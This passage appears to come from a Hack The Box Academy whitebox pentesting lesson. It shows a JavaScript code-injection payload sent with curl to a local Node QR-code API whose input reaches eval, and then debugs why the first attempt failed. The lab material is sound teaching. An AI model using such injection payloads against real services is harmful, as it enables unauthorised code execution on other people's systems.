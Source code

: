 ## Code Injection

Let's try injecting a simple `console.log` function and watch the Node console to see if it logs anything. To do so, we will add a semi-colon `;` after the parenthesis to start a new line of code and then add the injected code, as follows:

```json
{ "text": "'}); console.log('pwned')//" }

```

Before we send our payload, let's see how it would look like within the JavaScript code "we can remove the part after `//` as it won't affect the code":

```js
throw { message: 'The input "' };
console.log("pwned"); //

```

As we can see from the syntax highlighting, it appears to be a working JavaScript code. So, let's try to send this payload to `/api/service/generate` (we escaped double quotes in JSON):

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...9R6zeoubrQTbUiThBpeQD7_DWibgo" -d "{ \"text\": \"'}); console.log('pwned')//\" }" http://localhost:5000/api/service/generate
{"message":"Could not generate QR code."}

```

We get the expected error message, but when we go to the `Debug Console` in VSCode (CMD/CTRL+SHIFT+Y), we do not see anything logged into the console:
![](https://academy.hackthebox.com/storage/modules/244/no_console_log_injection.png)

That is odd. Our injection has failed. We may face similar cases in a real whitebox pentest exercise, so let's do some debugging to see what went wrong.

## Debugging

To ensure that we successfully reach code injection, we must ensure that our payload reaches the vulnerable function as expected. So, let's set a breakpoint on the `eval` function at line `9`, and send the above request again, to review the value of `onError`:
![](https://academy.hackthebox.com/storage/modules/244/onerror_wrong_injection_value.png)

As we can see, we did get the value. So, let's right-click on it and select `Copy Value` to review it:

```js
"throw({message: 'The input \"'}); console.log('pwned')//\" contains the following invalid characters: [',',']', statusCode: 403})";

```

Let's remove the quotes and any added double-quote escapes to view this as JavaScript code as would be executed by the eval function:
